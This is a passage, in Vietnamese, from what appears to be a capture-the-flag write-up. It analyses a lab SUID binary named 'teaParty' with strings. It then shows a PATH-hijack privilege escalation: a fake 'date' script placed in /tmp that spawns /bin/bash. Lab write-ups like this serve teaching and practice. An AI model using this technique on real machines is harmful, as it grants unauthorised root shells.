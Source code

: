 Tạm thời tôi chưa có ý tưởng gì về file này nên sẽ lấy nó về máy để phân tích.

```python
┌──(neo㉿kali)-[~]
└─$ wget http://10.10.165.85:8001/teaParty
--2022-08-11 05:12:17--  http://10.10.165.85:8001/teaParty
Connecting to 10.10.165.85:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: ‘teaParty’

teaParty                                        100%[====================================================================================================>]  16.42K  52.1KB/s    in 0.3s    

2022-08-11 05:12:18 (52.1 KB/s) - ‘teaParty’ saved [16816/16816]

┌──(neo㉿kali)-[~]
└─$ strings teaParty 
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
crtstuff.c
deregister_tm_clones
...
```

Ở đây, để lấy được thời gian, file sẽ chạy 1 lệnh `date` nhưng không xác định địa chỉ cụ thể `date` này nằm ở đâu. Tôi hoàn toàn có thể tạo 1 file thực thi có tên `date` bên trong thư mục */tmp* 

```python
#!/bin/bash
echo ""
/bin/bash
```
